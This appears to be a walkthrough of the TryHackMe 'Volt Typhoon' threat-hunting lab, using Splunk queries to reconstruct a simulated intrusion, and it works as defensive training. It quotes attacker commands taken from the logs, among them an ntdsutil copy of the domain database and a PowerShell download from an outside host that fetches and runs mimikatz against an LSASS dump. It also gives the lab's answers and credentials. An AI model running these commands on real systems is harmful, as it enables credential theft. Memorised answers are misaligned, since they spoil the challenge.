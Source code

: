 # Volt Typhoon THM Challenge

When I launched the VM and connect using a VPN, I login to the splunk instance using the following creds: volthunter:voltyp1010

I started combing through the logs by clicking search & reporting and this is when I starting looking at the first question related to initial access.

Comb through the ADSelfService Plus logs to begin retracing the attacker’s steps. At what time (ISO 8601 format) was Dean's password changed and their account taken over by the attacker?

I use this query to find the answer to the question: index="main" username="dean-admin" password. 

After sifting through the logs, towards the bottom I see the first password change at 2024-03-24T11:10:22.

![image](https://github.com/user-attachments/assets/966fd6fe-f577-46a4-ab4b-d773f7d8356e)

The next question asks the name of the new admin account created once the attack gained access. Using the same query, all I had to do was look one log above to find the name of the new account was voltyp-admin.

![image](https://github.com/user-attachments/assets/51c630db-4d73-453b-af8c-1bd9bcd601f0)

After this, I move onto Execution where the question asks, "In an information gathering attempt, what command does the attacker run to find information about local drives on server01 & server02?" 

This time I used the query index="main" username="dean-admin" server01 because I knew the command would involve something related to server01. Fortunately, only one log showed up and its the one I need to answer the question.

![image](https://github.com/user-attachments/assets/6104a4c9-45cb-4648-8cbb-8318139845c8)

Next question says the attacker using ntdsutil to create a copy of the database. Using ntdsutil in my query, I found that this command was used, 

`cmd.exe /c mkdir C:\Windows\Temp\tmp & ntdsutil.exe \"ac i ntds\" \"ifm create full C:\Windows\Temp\tmp\temp.dit`

This is showing a new folder made in Windows\Temp\tmp, and a new file called temp.dit. This was interesting so I added temp.dit to my query and found this.

![image](https://github.com/user-attachments/assets/d32a6883-4099-48e5-905a-f00deff190e4)

I found the attacker set the password as d5ag0nm@5t3r.

Task 4 is persistence.

The question says that the attacker established persistence by placing a webshell using base 64 encoded text but where did they place it?

I gave a guess in my search and thought that maybe they placed it in Windows\Temp so I added temp to my query and found this very suspicious log here.

![image](https://github.com/user-attachments/assets/63a3b68a-0398-4b36-8604-e67642738d4f)

I decoded the base 64 using https://www.base64decode.org/ and found that it was indeed running a webshell. The answer here was C:\Windows\Temp

Task 5 is defense evasion, the first question asks, "In an attempt to begin covering their tracks, the attackers remove evidence of the compromise. They first start by wiping RDP records. What PowerShell cmdlet does the attacker use to remove the “Most Recently Used” record?"

Knowing they were removing the most recently used, I added *MRU* to my search and found the cmdlet Remove-ItemProperty.

![image](https://github.com/user-attachments/assets/c8dea06d-3873-429b-843b-8e812084cc86)

For the next question I appended cmd.exe to my query and found the file cl64.gif.

The next question asked to find a path for the registry, I first appended registry to my query but only junk came up. After trying that, I added HKEY instead and found this path: 

![image](https://github.com/user-attachments/assets/c2874d6a-d19f-43b0-896a-f8b37c7b44de)

Task 6 is cred access, the question says they use reg query which is huge. I need to find the 3 pieces of software they are investigating using reg query. This is fairly simple as I just add reg query to my spl query. 

Using this query I found the software they were using was OpenSSH, putty, and realvnc. Adding reg query to the query only made me get 8 logs so it was fairly easy to sift through.

I had a hard time finding the decoded command. Eventually I figured out that I had to append hidden to my query to find the encoded command.

![image](https://github.com/user-attachments/assets/c9a4e0ec-2db7-4c7c-96db-186213f711a8)

Decoding this base64 once again gives me the command, `Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait`

Task 7 involves lateral movement around the network. The first question asks, The attacker uses wevtutil, a log retrieval tool, to enumerate Windows logs. What event IDs does the attacker search for?
Answer Format: Increasing order separated by a space.

I appended wevutil to my search and searched through the 12 logs I got to find the event IDs 4624 4625 and 4769.

The next question is asking for the new webshell used for server-02. Appending server-02 gives me over 500 logs so we cant use that, but I can use the original webshell that was found earlier to find the new one. Appending the old
webshell iisstart.aspx to my query I was able to find AuditReport.jspx was the new file.

![image](https://github.com/user-attachments/assets/125f7801-8ba3-40db-b382-79cd97e5660e)

Task 8 is collection and the only question is: The attacker is able to locate some valuable financial information during the collection phase. What three files does Volt Typhoon make copies of using PowerShell?
Answer Format: Increasing order separated by a space.

Appending Copy-Item can help me in my search. When I used it in my search I found the 3 files copied were 2022.csv, 2023.csv, and 2024.csv, all of which I assumed contained valuable company info.

The last task, task 9 is about C2 & Cleanup. The first question asks, The attacker uses netsh to create a proxy for C2 communications. What connect address and port does the attacker use when setting up the proxy?
Answer Format: IP Port.

I used netsh in my search and only found 4 logs, among them I found this one: 

![image](https://github.com/user-attachments/assets/402648bc-f78b-4cc1-9432-a143875515a4)

This has all the info I needed to know about the c2 server and its address.

The last question asks, To conceal their activities, what are the four types of event logs the attacker clears on the compromised system?

This time, I appended wevtutil cl to my search to find the types of logs they were trying to clear. I found these logs below:

![image](https://github.com/user-attachments/assets/eb73db01-94a2-48ac-9a9d-2d4847249eed)

Application, Security, Setup, and System. 

Thats It! I hope you enjoyed following along this room and hope this helped you if you got stuck somewhere!





